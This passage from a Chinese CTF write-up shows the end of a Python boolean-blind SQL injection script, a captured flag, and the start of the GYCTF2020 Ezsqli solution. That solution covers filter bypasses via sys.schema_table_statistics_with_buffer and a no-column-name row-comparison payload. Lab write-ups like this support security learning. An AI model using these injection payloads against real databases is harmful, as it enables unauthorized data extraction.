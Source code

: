 ```
                    print(name)
                    break
                bot = mid(bot, top)  # 成功就上移bot
            else:               # 失败
                if top - 1 == bot:      # top和bot相邻，加上失败，说明name是bot
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)  # 失败就下移top


if __name__ == '__main__':
    sqli()
```

flag{2ed1b2c4-f083-424e-a4e9-303222f99563}

 

 

 

 

### [[GYCTF2020\]Ezsqli](https://buuoj.cn/challenges#[GYCTF2020]Ezsqli)

考点：bool盲注，绕`information_schema`和`sys.schema_auto_increment_columns`，无列名过滤union和join

本站[GYCTFwp](http://wh1sper.com/2020i春秋新春战疫公益赛_web_wp/)已经讲过，所以简单说。

```
0||1
//返回Nu1L
0||0
//返回Error Occured When Fetch Result.
```

判断为bool盲注；

`information_schema`和`sys.schema_auto_increment_columns`这两个都被过滤了，可以使用`sys.schema_table_statistics_with_buffer`，无列名，而且过滤union和join，就只能用类似于：

```
(select 'admin','admin')>(select * from users limit 1)
```

这样的语句，前提是两边的查询列数相等，然后是按位比较，在某一位上谁大，那么就是谁大，如果相等的话，就比较下一位。

举几个例子：

```
g > flag{abcd}
a < flag{abcd}
fz > flag{bbbbb}//第一位相等，比较第二位
```

那么直接exp：
